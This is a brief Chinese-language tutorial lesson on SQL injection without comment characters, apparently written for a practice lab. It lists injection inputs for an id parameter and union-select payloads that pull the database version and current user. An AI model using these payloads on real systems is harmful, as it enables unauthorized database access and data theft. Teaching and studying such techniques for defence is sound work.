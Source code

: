 ###第五课：不用注释来查询

在这节中，我们来学习怎么进行基于错误的双引号注入攻击，如下两个注入：

`?id=1′ AND ’2 `

`?id=3′ AND ’4`

![37.jpg](./img/37.jpg)

注入这两个代码后，数据库显示不同的用户名和密码。现在我们使用联合查询命令来从数据库中得到更多的敏感信息。下面是我们使用的查询语句：

`-6′ union select 5, version(),3 AND ’1`

![39.jpg](./img/39.jpg)

这次的查询我们使用version()函数懒探测数据库的版本；同样，我们可以用其他不同的查询来从数据库中检索更多的信息。现在我们使用下面的查询来得到当前用户名:

`-6′ union select 5,current_user,3 AND ’1`

![41.jpg](./img/41.jpg)
